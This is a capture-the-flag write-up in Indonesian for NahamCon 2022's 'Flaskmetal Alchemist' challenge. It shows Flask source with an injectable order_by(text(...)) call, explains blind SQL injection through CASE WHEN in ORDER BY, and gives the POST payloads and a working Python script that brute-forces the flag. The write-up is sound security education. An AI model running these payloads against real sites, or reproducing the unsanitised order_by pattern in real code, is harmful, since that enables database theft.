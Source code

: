 # Flaskmetal Alchemist
#medium #web #sqlinjection

This flag does not follow the usual MD5 hash style format, but instead is a short style with lower case `flag{letters_with_underscores}`

## Target
Web yang digunakan untuk melakukan query metal.
![](attachments/Pasted%20image%2020220503171224.png)

**database.py**   
Menggunakan sqlite.
```python
from sqlalchemy import create_engine
from sqlalchemy.orm import scoped_session, sessionmaker
from sqlalchemy.ext.declarative import declarative_base

engine = create_engine("sqlite:////tmp/test.db")
db_session = scoped_session(
    sessionmaker(autocommit=False, autoflush=False, bind=engine)
)
Base = declarative_base()
Base.query = db_session.query_property()

def init_db():
    Base.metadata.create_all(bind=engine)
```

**models.py**
Ada 2 tabel: `metals` yang berisi kolom `atomic number`, `symbol`, dan `name` dan tabel `flag` yang berisi flag.
```python
from database import Base
from sqlalchemy import Column, Integer, String

class Metal(Base):
    __tablename__ = "metals"
    atomic_number = Column(Integer, primary_key=True)
    symbol = Column(String(3), unique=True, nullable=False)
    name = Column(String(40), unique=True, nullable=False)

    def __init__(self, atomic_number=None, symbol=None, name=None):
        self.atomic_number = atomic_number
        self.symbol = symbol
        self.name = name

class Flag(Base):
    __tablename__ = "flag"
    flag = Column(String(40), primary_key=True)

    def __init__(self, flag=None):
        self.flag = flag
```

**app.py**
```python
from flask import Flask, render_template, request, url_for, redirect
from models import Metal
from database import db_session, init_db
from seed import seed_db
from sqlalchemy import text

app = Flask(__name__)


@app.teardown_appcontext
def shutdown_session(exception=None):
    db_session.remove()


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)


if __name__ == "__main__":
    seed_db()
    app.run(debug=False)
```

## Solusi
- Kita fokus ke pengiriman query dari Flask.
```python
metals = Metal.query.filter(
    Metal.name.like("%{}%".format(search))
).order_by(text(order))
```

- Fungsi `like` aman dari injeksi, namun tidak dengan fungsi `order_by`.
```sql
SELECT metals.atomic_number AS metals_atomic_number, metals.symbol AS metals_symbol, metals.name AS metals_name
FROM metals
WHERE metals.name LIKE ? ORDER BY <Injeksi>
```

- BlindSQL injection dengan kondisi sorting, apabila benar maka sortir berdasarkan `atomic_number` apabila salah sortir berdasarkan `symbol`.
```sql
CASE
WHEN (SELECT SUBSTR(flag,1,1) FROM flag)='f'
  THEN atomic_number 
ELSE 
  symbol 
END
```

![](attachments/Pasted%20image%2020220503175850.png)

- Ketika tebakan benar, akan diurutkan berdasarkan `atomic_number`.
```http
POST / HTTP1.1
...
...

search=&order=CASE+WHEN+(SELECT+SUBSTR(flag,1,1)+FROM+flag)='F'+THEN+atomic_number+ELSE+symbol+END
```
![](attachments/Pasted%20image%2020220503213116.png)

- Ketika tebakan salah, akan diurutkan berdasarkan `symbol`
```http
POST / HTTP1.1
...
...

search=&order=CASE+WHEN+(SELECT+SUBSTR(flag,1,1)+FROM+flag)='r'+THEN+atomic_number+ELSE+symbol+END
```

![](attachments/Pasted%20image%2020220503213218.png)

- Script
```python
#!/usr/bin/env python3

import requests
import string

url = 'http://challenge.nahamcon.com:30606/'
chars = string.ascii_lowercase + '{}_'
inject = "CASE WHEN (SELECT SUBSTR(flag,{},1) FROM flag)='{}' THEN atomic_number ELSE symbol END"

flag = ''
index = 1
char = 'f'

while True:
    for char in chars:
        req = requests.post(url, data= { 'search': '', 'order': inject.format(index, char) })
        res = req.text.split('\n')
        if 'Li' in res[74]:
            flag += char
            index+=1
            break
    print(flag)
    if flag[-1] == '}':
        break

```

- Run script
![](attachments/Pasted%20image%2020220503215952.png)

## Source
https://github.com/ryan-cd/ctf/tree/master/2022/nahamcon/web/flaskmetal_alchemist
